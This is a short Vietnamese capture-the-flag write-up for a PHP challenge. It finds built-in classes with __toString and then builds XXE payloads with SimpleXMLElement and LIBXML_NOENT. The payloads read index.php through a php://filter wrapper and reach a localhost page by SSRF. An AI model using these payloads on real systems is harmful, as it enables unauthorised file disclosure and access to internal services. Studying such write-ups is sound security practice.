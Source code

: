 # Solution


Bài cho phép ta tạo một instance của một class có sẵn trong php và gọi `echo`. `echo` sẽ trigger function `__toString` của class đó.

Viết script để tìm các built-in class có method `__toString`:

```php
$declared_classes = get_declared_classes();

foreach ($declared_classes as $cls){
    if(method_exists($cls, '__toString'))
    {
        echo "FOUND: " . $cls. "\n";
    }
}
```

Ở cuối ta sẽ thấy `SimpleXMLElement`, tìm trên php.net sẽ thấy class này có phương thức khởi tạo như sau:

```
public SimpleXMLElement::__construct(
    string $data,
    int $options = 0,
    bool $dataIsURL = false,
    string $namespaceOrPrefix = "",
    bool $isPrefix = false
)
```

và ở bài này ta được truyền vào hai tham số là `$data` và `$options`

method `__toString` có chức năng parse các element và trả về text bên trong nó:

```php
<?php
$xml = new SimpleXMLElement('<a>1 <b>2 </b>3</a>');
echo $xml;
?>

The above example will output:

1 3
```

quay lại với `__contruct` ở tham số `$options` có một điều đáng lưu ý:

```
LIBXML_NOENT (int)
Substitute entities
Caution
Enabling entity substitution may facilitate XML External Entity (XXE) attacks.
```

-> trigger XXE


vậy payload:

```
echo new SimpleXMLElement("<!DOCTYPE foo [ <!ENTITY xxe SYSTEM 'php://filter/convert.base64-encode/resource=index.php'> ]> <a>&xxe;</a>", 2);
```

ở đây ta gửi đi `2` là dạng int của `LIBXML_NOENT`.

sau khi đọc được source file `index.php` thì tiếp theo là SSRF để đọc flag

```
echo new SimpleXMLElement("<!DOCTYPE foo [ <!ENTITY xxe SYSTEM 'php://filter/convert.base64-encode/resource=http://127.0.0.1/level12/index.php'> ]> <a>&xxe;</a>", LIBXML_NOENT);
```